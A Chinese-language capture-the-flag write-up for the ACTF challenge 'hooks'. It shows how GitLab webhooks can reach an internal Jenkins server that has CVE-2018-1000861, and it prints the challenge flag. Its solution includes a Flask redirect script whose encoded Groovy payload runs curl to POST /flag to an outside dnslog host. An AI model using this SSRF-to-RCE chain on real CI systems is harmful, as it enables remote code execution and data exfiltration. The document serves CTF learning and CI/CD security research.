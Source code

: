 # hooks

## 题目信息
名称：hooks

题目描述: Gateway: http://题目地址/  Intranet jenkins service: http://jenkins:8080/

提示: Please Abuse Gitxxb Webhooks

flag: ACTF{cicd_MX0XKe_security_8o5Agr_is_bsreH3_interesting}

## 题目介绍
某些企业可能会允许Github、Gitlab等SCM的Webhooks访问其内网CI/CD服务，这道题模拟了类似场景。

核心靶标是jenkins服务，存在CVE-2018-1000861漏洞(https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2018-1000861)。

## 服务分布
- nginx 对外监听80端口 默认拦截所有IP 只放行Github、Gitlab的出口IP 请求会转发给flask服务
- flask 不对外开放端口 只能从nginx转发过来 模拟SSRF漏洞来攻击jenkins服务 同时拦截部分关键词
- jenkins 存在CVE-2018-1000861漏洞 攻击者将/flag中的内容curl到dnslog

## 解题思路
- VPS上部署中转服务
Github及Gitlab发送的Webhooks请求都是POST，但flask模拟的SSRF服务不接受POST请求。Gitlab可以跟随302重定向，这里在VPS部署中转服务，将了来自Gitlab的POST请求转换为GET请求

    ```python
    from flask import Flask, request, redirect

    app = Flask(__name__)

    @app.route('/redirect', methods=['POST'])
    def redi():
        return redirect('http://xxxxx/?redirect_url=http%3A%2F%2Fjenkins%3A8080%2FsecurityRealm%2Fuser%2Fadmin%2FdescriptorByName%2Forg.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript%2FcheckScript%3Fsandbox%3Dtrue%26value%3Dpublic%20class%20x%20%7Bpublic%20x()%7B%22curl%20-X%20POST%20-d%20%40%2Fflag%20http%3A%2F%2Fres.kjczd914.eyes.sh%22.execute()%7D%7D',code=302)

    if __name__ == '__main__':
        app.run(debug=True,host="0.0.0.0")

    ```
- Gitlab添加Webhooks 地址填 http://vps/rediret 发送Webhooks请求
![webhook](webhook.png)

- dnslog收到flag
![dnslog](dnslog.png)

## 参考
https://www.rsaconference.com/library/Presentation/USA/2023/Abuse%20of%20Repository%20Webhooks%20to%20Access%20Hundreds%20of%20Internal%20CI%20Systems